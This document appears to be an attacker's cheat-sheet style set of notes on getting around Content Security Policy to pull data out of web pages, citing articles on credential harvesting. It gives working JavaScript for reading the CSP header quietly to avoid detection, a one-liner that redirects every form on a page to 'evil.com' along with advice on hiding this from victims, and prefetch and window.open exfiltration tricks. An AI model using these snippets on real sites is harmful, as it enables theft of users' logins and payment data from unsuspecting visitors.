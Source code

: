 Sources:
1) https://medium.com/bugbountywriteup/bypass-csp-by-abusing-xss-filter-in-edge-43e9106a9754
2) https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5
3) https://www.w3.org/TR/CSP2/
4) https://medium.com/@lukaw3d/any-way-to-prevent-outgoing-connections-through-window-open-https-legit-analytics-com-q-b7556f095117

## CSP
CSP Stands for **Content Security Protection** which prevents content from being put into a web page to either allow data IN or let data OUT.

### CSP Structure
CSP can be added in one of two ways:
- `<meta>` tags embedded in the webpage. Example:
``<meta http-equiv=”Content-Security-Policy” content=”script-src ‘self’”>``
- Content-Security-Policy HTTP response header field

It is designed to restrict what you can bring into the browser, but can also — as a side effect — limit the ways in which data can be sent out.
It is separated into different elements to determine which HTML elements are allowed to be used in the webpage.
Simply attempting to send data out from a site with CSP enabled can alert the site owner of the failed attempt if they specify a `report-uri`.
To avoid detection, we can get all the CSP data and read the headers:
```
fetch(document.location.href)
.then(resp => {
  const csp = resp.headers.get('Content-Security-Policy');
  // does this exist? Is is any good?
});
```
This avoids us actually hitting the CSP as we can simply read what CSP is running on the page.

#### Bypasses
In a lot of instances, a `default-src` is set as a "catch-all" but this doesn't actually catch all. Often, `form-action` is not locked down.

So when checking CSP, if there's no `form-action` CSP in place, we can simply change where the data is sent to when you click `sign in` or submit your form. We can do that with:
`Array.from(document.forms).forEach(formEl => formEl.action = '//evil.com/bounce-form');`

If using the above trick, only do it once per device and bounce the user back to the referring page so they can try again without noticing what happened.

Another method commonly used are the following lines of code:
```javascript {cmd="node"}
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

##### Intrusive data out
*Source 4*
If struggling to make outbound HTTP requests from the page, we could consider doing `window.open(‘https://legit-analytics.com?q=${payload}', ‘_blank’).close()`. It's incredibly intrusive and would probably give alarm bells but it's just another option if CSP is bugging you.
